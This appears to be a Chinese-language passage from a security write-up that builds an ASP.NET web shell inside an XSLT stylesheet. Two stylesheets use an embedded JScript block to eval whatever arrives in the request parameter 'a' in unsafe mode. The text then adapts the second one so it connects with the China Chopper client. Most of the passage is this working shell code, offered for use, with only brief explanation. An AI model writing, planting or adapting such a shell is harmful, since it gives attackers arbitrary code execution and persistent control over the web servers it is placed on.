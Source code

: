 于是添加WebShell所必需的几个程序集，得到：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="JScript" implements-prefix="zcg">
    <msxsl:assembly name="mscorlib, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Data, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Configuration, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    <msxsl:assembly name="System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    function xml() {eval(System.Web.HttpContext.Current.Request.Item['a'],'unsafe');}
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml()"/>
  </xsl:template>
</xsl:stylesheet>

```

直接访问已经没有错误，但使用菜刀连接时爆出错误：

```
未声明变量“Response”

```

很显然，菜刀提交的语句中直接调用了Response。由于jscript.net中eval的上下文与调用方共享变量且具有同一名称，手动添加菜刀所需的Request、Response、Server，可以得到以下xslt：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="JScript" implements-prefix="zcg">
    <msxsl:assembly name="mscorlib, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Data, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Configuration, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    <msxsl:assembly name="System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    function xml() {var c=System.Web.HttpContext.Current;var Request=c.Request;var Response=c.Response;var Server=c.Server;eval(Request.Item['a'],'unsafe');Response.End();}
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml()"/>
  </xsl:template>
</xsl:stylesheet>

```

